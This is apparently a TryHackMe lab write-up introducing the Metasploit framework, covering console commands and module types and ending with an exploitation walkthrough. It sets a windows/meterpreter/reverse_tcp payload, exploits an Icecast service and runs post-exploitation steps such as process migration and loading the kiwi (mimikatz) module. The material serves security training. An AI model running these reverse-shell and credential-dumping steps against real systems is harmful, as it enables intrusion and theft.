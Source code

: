 #  TryHackMe - Metasploit (Room 016)

<details><summary>Intro</summary>
<p>

![](/Metasploit/images/metasploit.png)

Metasploit - an open source pentesting framework - is a powerful tool utilized by security engineers around the world. Maintained by Rapid7, Metasploit is a collection of not only thoroughly tested exploits but also auxiliary and post-exploitation tools. Throughout this room, we will explore the basics of using the framework and a few of the modules it includes

</p>
</details>

<details><summary>Initializing</summary>
<p>

![](/Metasploit/images/init.png)

If this is your first time using Metasploit, you will have just a few things to do before you utilize its full functionality

First things first, we need to initialize the database via the command `msfdb init`

![](/Metasploit/images/msfdb.png)

Before starting Metasploit, we can view some of the advanced options we can trigger for starting the console. Check these out now by using the command `msfconsole -h`

![](/Metasploit/images/help.png)

We can start the Metasploit console on the command line without showing the banner or any startup information as well via the `-q` flag

Once the database is initialized, go ahead and start Metasploit via the command `msfconsole`

![](/Metasploit/images/msfconsoel.png)

After Metasploit has started, you can check we have connected to the database via the `db_status` command

![](/Metasploit/images/db.png)

Metasploit uses a PostGreSQL type of database as seen above

</p>
</details>

<details><summary>Rock 'em to the Core [Commands]</summary>
<p>
	
![](/Metasploit/images/rock.png)

On the Metasploit prompt, type the command `help`

![](/Metasploit/images/help2.png)

The help menu has a very short one-character alias which is `?`

Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. The base command we use for searching is simply `search`

Once we have found the module we want to leverage, we use the command `use` to select it. If we want to view information about either a specific module or just the active module we use the `info` command

Metasploit has a built-in netcat-like function where we can make quick connections with a host simply to verify that we can talk to it. This command is the `connect` command

If you just want to see the MOTD/ASCII art when we start msfconsole, simply type the `banner` comamnd

![](/Metasploit/images/banner.png)

To change the value of a variable, we use the `set` command. Metasploit also supports the use of global variables, something which is incredibly useful when you are specifically focusing on a single box. The command to change global variables is the `setg` command

To view the value of the variables, we use the `get` command

![](/Metasploit/images/get.png)

To change the value of a variable to null/no value we use the `unset` command

When performing a penetration test, it is quite common to record your screen either for further review or for providing evidence of any actions taken. This is often couple with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. The `spool` command can be used to set the console output to save to a file

Leaving a Metasploit console running is NOT always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. The `save` command can be used to store the settings/active datastores from Metasploit to a settings file. This saves within the msf4 or msf5 directory and can be undone easily by simply removing the created settings file

</p>
</details>

<details><summary>Modules for Every Occasion</summary>
<p>
	
![](/Metasploit/images/modules.png)

Metasploit consists of six core modules that make up the bulk of the tools you will utilize within it

![](/Metasploit/images/module.png)

Easily the most common module utilized is the `exploit` modules - these hold all of the exploit code we use. Another module used hand in hand with exploits is the `payload` modules which contain the various bits of shellcode we send to have executed following exploitation

The `auxiliary` module is most commonly used in scanning and verification that machines are exploitable

One of the most common activities after exploitation is looting and pivoting. The `post` module provides these capabilities

The `encoder` module allows us to modify the apperance of our exploit such that we avoid signature detection. It is commonly used in payload obfuscation

The `nop` module is used with buffer overflow and ROP attacks

To load different modules not loaded in by default, you can use the `load` command

</p>
</details>

<details><summary>Move That Shell</summary>
<p>

![](/Metasploit/images/shell2.jpg)
	
Metasploit comes with a built-in way to run nmap and feed it's results directly into the database. Can run it via the `db_nmap -sV [IP]` command

![](/Metasploit/images/nmap.png)

On port 135, it identifies the service as MS RPC. By typing the `hosts` command into msfconsole, we can see waht information we have collected in the database

![](/Metasploit/images/hosts.png)

By typing `services`, we can see more information

![](/Metasploit/images/services.png)

It's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged powerfully and quickly. Done by typing `vulns`

![](/Metasploit/images/vulns.png)

Now that we've scanned the victim system, we can try connecting to it with a Metasploit payload. First, we have to search for the target payload. In Metasploit 5 you can simply type `use` followed by a unique string found within only the target exploit

For example try it now with the following command `use icecast`. The full path for the exploit that appears in the prompt is `/exploit/windows/http/icecast_header`

![](/Metasploit/images/icecast.png)

While that command with the unique string can be incredibly useful, it is not quite the exploit we want. Now, run the command `search multi/handler`. We can use the number instead of the name of the module for quicker exploitation

![](/Metasploit/images/number.png)

Select the number 7 from the previous list and set the payload using the command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, run the command `set LHOST [IP]`

![](/Metasploit/images/set.png)

Next, go ahead and `use icecast` and set the RHOST to the IP via `set RHOSTS [ip]`

![](/Metasploit/images/ice.png)

Once the variables are set, run the exploit via the `exploit` command or the `run -j` command to run it as a job

![](/Metasploit/images/meterpreter.png)

Once started, we can check all of the jobs running on the system by running the `jobs` command

After we have established our connection, we can list all of our sessions using the command `sessions`. Similiarly, we can interact with a target session using the command `sessions -i [number]`

![](/Metasploit/images/sessions.png)

</p>
</details>

<details><summary>We're In, Now What?</summary>
<p>
	
![](/Metasploit/images/werein.png)

Now that we have a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage

First things first, our initial shell/process typically is not very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command `ps`

![](/Metasploit/images/ps.png)

The name of the spool service is `spoolsv.exe`. We can try and migrate to that spool process. To migrate, simply type `migrate [PID]` along with the PID of the process

![](/Metasploit/images/migrate.png)

That migration did not work. Let's find out some more information about the system so we can try to elevate. The `getuid` command gives us more information regarding the current user running the process we are in

![](/Metasploit/images/getuid.png)

To find out more information about the system itself, we use the `sysinfo` command

![](/Metasploit/images/sysinfo.png)

To load a post exploitation module called mimikatz, we can type `load kiwi`

![](/Metasploit/images/kiwi.png)

If we want to transfer files to our victim, we use the `upload` command. If we want to run a Metasploit module, we use the `run` command. If we want to figure out the networking information and interfaces on our victim, we can run the `ipconfig` command

![](/Metasploit/images/ip.png)

</p>]
</details>